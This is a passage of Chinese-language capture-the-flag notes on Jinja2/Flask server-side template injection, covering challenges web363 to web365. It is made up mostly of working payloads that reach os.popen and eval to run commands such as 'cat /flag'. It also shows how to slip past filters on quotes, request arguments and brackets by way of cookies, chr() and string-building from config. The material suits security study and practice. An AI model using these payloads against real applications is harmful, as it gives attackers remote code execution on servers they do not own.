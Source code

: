 - url_for`?name={{url_for.__globals__['__builtins__']['eval']("__import__('os').popen('cat /flag').read()")}}`

- `?name={{x.__init__.__globals__['__builtins__']}}`
这里的x任意26个英文字母的任意组合都可以，同样可以得到`__builtins__`然后用eval就可以了

- `{% for i in ''.__class__.__mro__[1].__subclasses__() %}{% if i.__name__=='_wrap_close' %}{% print i.__init__.__globals__['popen']('ls').read() %}{% endif %}{% endfor %}`

### 过滤

#### 过滤单双引号

web363

- request绕过`?a=os&b=popen&c=cat /flag&name={{url_for.__globals__[request.args.a][request.args.b](request.args.c).read()}}`

- 字符串拼接  `?name={{url_for.__globals__[(config.__str__()[2])%2B(config.__str__()[42])]}}`--->`?name={{url_for.__globals__['os']}}`

- chr `?name={% set chr=url_for.__globals__.__builtins__.chr %}{% print  url_for.__globals__[chr(111)%2bchr(115)]%}`

- 过滤器 `(()|select|string)[24]`

- 利用config拿到字符串

```py
# popen
/?name={{config.__str__()[17]%2bconfig.__str__()[2]%2bconfig.__str__()[17]%2bconfig.__str__()[43]%2bconfig.__str__()[3]}}

/?name={{().__class__.__mro__[1].__subclasses__()[132].__init__.__globals__[config.__str__()[17]%2bconfig.__str__()[2]%2bconfig.__str__()[17]%2bconfig.__str__()[43]%2bconfig.__str__()[3]](request.args.b).read()}}&b=cat /flag
```

#### 过滤单双引号和args

web364

使用cookies

`/?name={{().__class__.__mro__[1].__subclasses__()[132].__init__.__globals__[request.cookies.a](request.cookies.b).read()}}`
或者
`{{url_for.__globals__[request.cookies.a][request.cookies.b](request.cookies.c).read()}}`
Cookie:
`a=popen;b=cat /flag;`

#### 过滤单双引号和args和[]

web365

- 用`.`

```py
/?name={{x.__init__.__globals__.__builtins__.eval(request.cookies.a)}}
Cookie:
a=__import__('os').popen('cat /flag').read()
```
